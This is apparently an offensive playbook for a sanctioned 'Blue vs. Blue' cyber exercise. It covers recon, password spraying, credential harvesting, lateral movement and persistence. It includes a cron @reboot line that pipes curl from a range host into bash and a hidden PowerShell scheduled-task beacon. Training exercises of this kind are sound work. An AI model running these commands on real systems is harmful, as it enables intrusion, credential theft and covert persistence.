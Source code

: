 Phase Two Workflow — Blue vs. Blue (Offense)
1. Rules & Constraints
Targets: Only other Blue Teams’ subnets (100.80.0.0/21, per team ranges).

Prohibited: No DoS, no rendering hosts unusable, no deleting OS files, no firewall lockouts.

Scoring: Maintain your own services and beacon from compromised hosts to Scorebot.

Spirit: Live off the land, minimize footprint, preserve uptime.

2. Reconnaissance
Network discovery

bash
nmap -sV -Pn 100.80.X.0/23
Focus on scored services (HTTP, DNS, SMB, RDP, SSH).

Web app mapping

Use curl, wget, or Burp to enumerate endpoints.

Look for login portals, file uploads, debug pages.

Service enumeration

SMB: smbclient -L //target -N

RDP: xfreerdp /u:user /p:pass /v:target

SSH: ssh user@target

3. Initial Access
Credential attacks

Reuse captured NTLMv2/NTLM hashes (from Responder).

Spray common passwords against SSH/RDP/SMB.

Web app exploitation

Test for auth bypass, LFI, RFI, SQLi, file upload → webshell.

Abuse legitimate features (template injection, debug endpoints).

Living off the land

Windows: wmic, powershell, schtasks, regsvr32.

Linux: ssh, cron, systemd-run, bash.

4. Post‑Exploitation
Credential harvesting

Windows: cmdkey /list, dump saved creds.

Linux: check /etc/shadow (if readable), config files, SSH keys.

Lateral movement

Windows: Enter-PSSession, Invoke-Command, schtasks.

Linux: SSH with reused creds, pivot via shared keys.

Privilege escalation

Windows: weak service permissions, unquoted paths.

Linux: sudo misconfigs, SUID binaries, cron jobs.

5. Persistence
Windows

Scheduled task with PowerShell one‑liner beacon.

Registry run keys (user‑level).

Linux

Add SSH key to ~/.ssh/authorized_keys.

Cron @reboot job calling existing binaries.

6. Beaconing & Scoring
Deploy beacon to Scorebot from compromised host.

Use allowed egress (80/443/53/25).

Keep services functional — test after beacon deployment.

7. Hygiene & Documentation
Do not delete logs — only clean your artifacts (temp files, uploaded shells).

Document everything: host, creds, method, persistence, beacon status.

Time management: rotate operators, avoid rabbit holes.

8. Priorities & Time Allocation
First 30 min: Recon, service mapping, quick wins (default creds, weak passwords).

Next 60–90 min: Web app exploitation, credential reuse, initial shells.

Next 60–90 min: Lateral movement, persistence, beacon deployment.

Final stretch: Maintain uptime, clean artifacts, document for hotwash.

9. LOTL Command Snippets
Windows

powershell
schtasks /Create /SC ONCE /TN "Update" /TR "powershell -w hidden -c '...' " /ST 23:59
Linux

bash
echo "@reboot /usr/bin/curl http://100.80.X.Y/beacon.sh | bash" | crontab -
Phase Two Mindset
Stealth over noise: blend with admin traffic.

Service uptime first: don’t break scored services.

Document for hotwash: every action is a learning point.

Outrun the other Blue Teams: you don’t need perfection, just better resilience and offense.
